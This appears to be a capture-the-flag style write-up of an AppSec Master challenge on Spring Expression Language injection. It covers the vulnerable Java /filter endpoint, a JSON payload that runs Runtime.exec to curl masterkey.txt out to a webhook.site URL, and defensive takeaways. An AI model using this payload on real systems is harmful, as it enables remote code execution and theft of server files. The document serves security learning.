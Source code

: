 ```yaml
---
layout: post
title: "SpEL Injection Exploit – AppSec Master Challenge Writeup"
categories: code-review
tags: [spel, java, rce, injection, challenge]
image: https://www.appsecmaster.net/assets/appLogo.svg
pin: false
comments: true
toc: true
---
```


In this challenge from [AppSec Master](https://www.appsecmaster.net/en/challenge/bf1cf76c-22fd-4e48-bd69-d3bdf4861547), the goal was to exploit a **Spring Expression Language (SpEL) injection** to execute a command on the server and exfiltrate the content of the `masterkey.txt` file.

## Objective

Leverage a vulnerable `/filter` endpoint to execute arbitrary Java code via SpEL injection and read the contents of `masterkey.txt`.

---

## Source Code Analysis

Here’s the relevant part of the server-side code:

```java
@PostMapping("/filter")
public Object filter(@RequestBody Map<String, String> payload) {
    String filter = payload.get("filter");

    if (!filter.startsWith("username") && !filter.startsWith("ipaddr") && !filter.startsWith("role")) {
        return Map.of("error", "Only filtering on 'username', 'ipaddr' and 'role' is allowed");
    }

    ExpressionParser parser = new SpelExpressionParser();
    List<String> result = new ArrayList<>();

    for (User user : users) {
        StandardEvaluationContext context = new StandardEvaluationContext(user);
        try {
            Boolean matches = parser.parseExpression(filter).getValue(context, Boolean.class);
            if (Boolean.TRUE.equals(matches)) {
                result.add(user.getUsername());
            }
        } catch (Exception e) {
            return Map.of("error", "Evaluation failed");
        }
    }

    return Map.of("result", result);
}
````

---

## Key Observations

- The backend accepts a JSON payload with a `filter` key.
    
- It performs a _weak check_ to ensure the filter string starts with `username`, `ipaddr`, or `role`.
    
- The filter is then evaluated using **SpEL**, which can interpret and execute Java-like expressions.
    

This opens up a door to **Expression Injection**, especially since `parser.parseExpression()` is used directly on user input.

---

## Exploiting SpEL Injection

Since only the **start** of the filter string is validated, we can inject arbitrary expressions using `or`.

### Payload:

```json
{
  "filter": "username == 'omar' or T(java.lang.Runtime).getRuntime().exec(new String[]{\"curl\", \"--data-urlencode\", \"leak@masterkey.txt\", \"https://webhook.site/518649e2-bcb2-453f-aee1-caa48a6ab505\"})"
}
```

This payload does the following:

- `username == 'omar'` passes the startsWith check.
    
- `or` allows us to short-circuit and execute our SpEL expression.
    
- `T(java.lang.Runtime).getRuntime().exec(...)` executes the Java `Runtime.exec()` method.
    
- We use the array syntax `new String[]{...}` to avoid shell interpretation issues in Java.
    
- `--data-urlencode` causes `curl` to read the content of `masterkey.txt` and send it as POST data to [webhook.site](https://webhook.site/).
    

---

## Result

The request was sent, and I successfully received the contents of the file on the webhook

---

## 🔐 Key Takeaways

- SpEL Injection is extremely dangerous when user-controlled input is evaluated without sanitization.
    
- `T(...)` gives access to arbitrary Java classes.
    
- Runtime execution should never be exposed via dynamic expression evaluation.
    

---

## 📚 References

- [Spring Expression Language (SpEL) Docs](https://docs.spring.io/spring-framework/docs/current/reference/html/core.html#expressions)
    
- [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)
    
- [Spring4Shell – CVE-2022-22965](https://nvd.nist.gov/vuln/detail/CVE-2022-22965)
    

---

If you enjoyed this write-up, feel free to follow me on [Twitter](https://twitter.com/00xmora)